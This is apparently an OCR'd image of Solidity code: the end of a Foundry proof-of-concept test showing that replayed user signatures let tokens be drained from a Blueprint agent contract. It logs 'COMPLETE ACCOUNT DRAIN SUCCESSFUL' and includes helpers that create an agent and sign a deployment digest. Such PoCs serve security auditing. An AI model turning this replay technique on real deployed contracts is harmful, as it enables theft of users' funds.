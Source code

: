 ```solidity
        console.log(
            "Total tokens stolen: %d tokens (100% of balance)",
            (initialBalance - finalBalance) / 10 ** 18
        );
        console.log("Number of replays: %d", NUM_REPLAYS);
        console.log("RESULT: COMPLETE ACCOUNT DRAIN SUCCESSFUL");
        console.log("------------------------------------");
    }

    // Helper function to create an agent owned by the test user
    function setupUserAgent() private returns (bytes32 requestId) {
        // Create agent as the user to establish ownership
        vm.startPrank(userAddress);
        requestId = blueprint.createAgentWithToken(
            projectId,
            "base64 proposal",
            workerAddress,
            "app.crestal.network",
            address(mockToken)
        );
        vm.stopPrank();
        return requestId;
    }

    // Helper function to create a user signature
    function createUserSignature(
        string memory updatedConfig
    ) private view returns (bytes memory signature) {
        // Create the digest that will be signed
        bytes32 digest = blueprint.getRequestDeploymentDigest(
            projectId,
            updatedConfig,
            "app.crestal.network"
        );

        // Sign the digest with the user's private key
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, digest);
        signature = abi.encodePacked(r, s, v);

        return signature;
    }
}
```
